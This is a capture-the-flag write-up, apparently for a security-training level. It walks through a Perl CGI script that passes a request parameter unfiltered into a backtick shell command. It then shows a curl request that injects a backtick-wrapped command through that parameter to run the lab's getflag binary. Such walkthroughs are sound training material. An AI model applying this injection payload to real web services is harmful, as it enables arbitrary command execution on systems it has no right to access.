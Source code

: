 we can see an executable: level04.pl

when we try to execute it we have the following message:

perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_CTYPE = "UTF-8",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

that means we have to variable unset. Moreover when we use 'cat' to see the program we see this:
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};                       => permit to handle request to generate Respons
print "Content-type: text/html\n\n";
sub x {                                  => define a subroutine, a subroutine is a block of code called multiple times
  $y = $_[0];                            => very important it take the first variable passed through the request and print t
  print `echo $y 2>&1`;
}
x(param("x"));                          => This line calls the x subroutine, passing the value of the CGI parameter named "x" as an argument. 

we now understand it use CGI and Content-type like typical html Response.

we need to connect to localhost:4747 and passs the value getflag to print the flag.

we can use a browser request or more simple using curl:

curl -d 'x=`getflag`' http://localhost:4747

In this command, the -d option specifies the data to be sent in the request body, and the value 'x=getflag' is passed. The backticks (`) around getflag indicate that the getflag command should be executed and its output should be used as the value of the x parameter.

IT IS VERY important to use backticks on getflag because you will only print the word getflag without it.



